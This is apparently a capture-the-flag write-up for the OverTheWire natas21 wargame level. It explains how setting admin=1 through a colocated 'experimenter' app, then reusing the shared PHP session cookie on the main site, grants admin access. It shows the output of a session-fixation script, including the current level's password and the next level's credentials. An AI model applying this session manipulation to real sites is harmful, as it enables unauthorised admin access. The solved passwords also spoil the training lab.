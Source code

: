 - Exploit summary:

This level consists of **two colocated applications**:

- `http://natas21.natas.labs.overthewire.org` (main)
- `http://natas21-experimenter.natas.labs.overthewire.org` (experimenter)

The experimenter allows you to **set arbitrary session values** via POST or GET parameters. These session values are saved on the back-end using the standard `PHPSESSID` cookie.

If you set `admin=1`, and then reuse that same session ID on the main domain, the main site checks the session and gives you the credentials for the next level.

- I wrote a script that will do all job for us.

  ```
  $ python3 session-fixation.py  
  <html>
  <head><link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css"></head>
  <body>
  <h1>natas21 - CSS style experimenter</h1>
  <div id="content">
  <p>
  <b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
  </p>
  [DEBUG] Session contents:<br>Array
  (
      [debug] =>  
      [submit] =>  
      [admin] => 1
  )
  
  <p>Example:</p>
  <div style='background-color: yellow; text-align: center; font-size: 100%;'>Hello world!</div>
  <p>Change example values here:</p>
  <form action="index.php" method="POST">align: <input name='align' value='center' /><br>fontsize: <input name='fontsize' value='100%' /><br>bgcolor: <input name='bgcolor' value='yellow' /><br><input type="submit" name="submit" value="Update" /></form>
  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
  <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
  <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
  <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
  <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
  <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
  <script>var wechallinfo = { "level": "natas21", "pass": "BPhv63cKE1lkQl04cE5CuFTzXe15NfiH" };</script></head>
  <body>
  <h1>natas21</h1>
  <div id="content">
  <p>
  <b>Note: this website is colocated with <a href="http://natas21-experimenter.natas.labs.overthewire.org">http://natas21-experimenter.natas.labs.overthewire.org</a></b>
  </p>
  You are an admin. The credentials for the next level are:<br><pre>Username: natas22
  Password: d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz</pre>
  ```